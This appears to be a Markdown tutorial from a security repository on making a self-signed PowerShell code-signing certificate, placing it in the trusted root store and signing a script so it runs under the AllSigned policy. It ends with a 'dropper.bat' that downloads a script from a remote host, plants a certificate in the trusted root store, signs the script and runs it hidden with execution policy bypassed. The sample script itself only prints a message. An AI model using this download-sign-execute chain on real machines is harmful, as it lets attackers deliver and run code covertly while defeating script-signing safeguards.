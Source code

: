 ### Create a Self-Signed Certificate for Code Signing

<br />

In PoweShell 3.0, the New-SelfSifgnedCertificate cmdlet was generating only SSL certificates that couldn’t be used to sign the driver and application code (unlike certificates generated by the MakeCert utility). In PowerShell 5 the new version of the New-SelfSifgnedCertificate
cmdlet can now be used to issue a Code Signing certificates.

<br />

#### Lets build our test script (my_posh_script.ps1)
```
# Malicious Code to execute
write-host "Just to test IF certificate sign was worked.." -ForeGroundColor green -BackGroundColor black
Start-Sleep -Seconds 3

```

#### Lets set 'Target' PS Execution Policy to 'AllSigned' to test the script (no need admin rigths)
`Set-ExecutionPolicy AllSigned -Scope CurrentUser`

<br />

#### Lets Run our Script (With PS ExecutionPolicy set to 'AllSigned')
[AllSigned = Requires that all scripts and configuration files are signed by a trusted publisher, including scripts written on the local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sd11](https://user-images.githubusercontent.com/23490060/72687408-6a1e7180-3af5-11ea-8d14-c0ffa221468d.png)

<br />


#### To create a self-signed certificate for signing the application code (my_posh_script.ps1), run the command:
```
$cert = New-SelfSignedCertificate -Subject "My Code Signing Certificate” -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My
```
![sdr](https://user-images.githubusercontent.com/23490060/72689217-0dc44d80-3b07-11ea-98f6-1acadb0615b3.png)

<br />

#### Let’s try to sign our PowerShell script (my_posh_script.ps1) using this certificate:
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![fdr](https://user-images.githubusercontent.com/23490060/72689232-3cdabf00-3b07-11ea-9ba7-ff830fca7356.png)

**Remark:** f you are receiving an **'UnknownError'** warning when executing the command, this means that **'the certificate is not trusted'**.
Because it is located in the **'user’s personal certificates store'** -> (open certlm.msc snap-in [Windows+R -> `certlm.msc`] to see it)
![sd3](https://user-images.githubusercontent.com/23490060/72686272-bfa15100-3aea-11ea-9f1a-7ae2e2cb0cb2.png)

<br />

#### We need to move our certificate to the 'trusted root certificates' store
![sd4](https://user-images.githubusercontent.com/23490060/72686277-dba4f280-3aea-11ea-9332-9e8c274bb9fe.png)
![sd5](https://user-images.githubusercontent.com/23490060/72686281-e52e5a80-3aea-11ea-96a6-a11bf6e8e8f3.png)
![sd6](https://user-images.githubusercontent.com/23490060/72686284-ec556880-3aea-11ea-9af0-3e43c4ea8fa1.png)

<br />

#### After that, you can sign your PowerShell script with this self-signed certificate.
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![dsf](https://user-images.githubusercontent.com/23490060/72689414-1158d400-3b09-11ea-9d6a-449a224c1952.png)
#### After the script beeing signed, it will be append one certificate {code block} inside the PS script:
![po1](https://user-images.githubusercontent.com/23490060/72687557-d2ba1e00-3af6-11ea-840b-702ccbe4bc73.png)
#### Running the script with PS Execution-Policy set to 'AllSigned'
[AllSigned. Requires that all scripts and configuration files are signed by a trusted publisher, including scripts written on the local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sdff](https://user-images.githubusercontent.com/23490060/72687601-6a1f7100-3af7-11ea-8f95-9d611d8867b2.png)

---

<br />

**Remark:** After beeing signed, the PS script can not be changed under the risk of breaking cert code block

**Remark:** Remmenber that this certificate its only valid for the Local Machine (current PC) were it was been stored..
That meens if we port the PS script to a remote machine it will not execute, because remote machine does not contain
this certificate in there certificate store ...

#### Revert Target System to 'Default' Settings. (non admin privs requiered)
`Set-ExecutionPolicy Restricted -Scope CurrentUser`

---

<br />

#### Batch (dropper.bat) Automation Example:
```
:: Code to Download our PS script to 'tmp' remote folder
powershell -C (New-Object Net.WebClient).DownloadFile('http://192.168.1.71/my_posh_script.ps1', '$env:tmp\my_posh_script.ps1');
timeout /T 2 >nul

:: Code to digitally sign Our Downloaded PS script (my_posh_script.ps1)
powershell $cert = New-SelfSignedCertificate -Subject "My Code Signing Certificate” -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My;Move-Item -Path $cert.PSPath -Destination "Cert:\CurrentUser\Root";Set-AuthenticodeSignature -FilePath $env:tmp\my_posh_script.ps1 -Certificate $cert;
timeout /T 2 >nul

:: Code to Execute our Downloaded script
powershell -Execution Bypass -WindowStyle Hidden -NoProfile -File "$env:tmp\my_posh_script.ps1"
```
**Remark:** This Dropper.bat can Download-PS-Script/Build-Cert/Sign-PS-Script/Execute-PS-Script because the Policy
its by Default set to powershell Scripts Only (this policy does not affect batch scripts from running and executing all of this)..
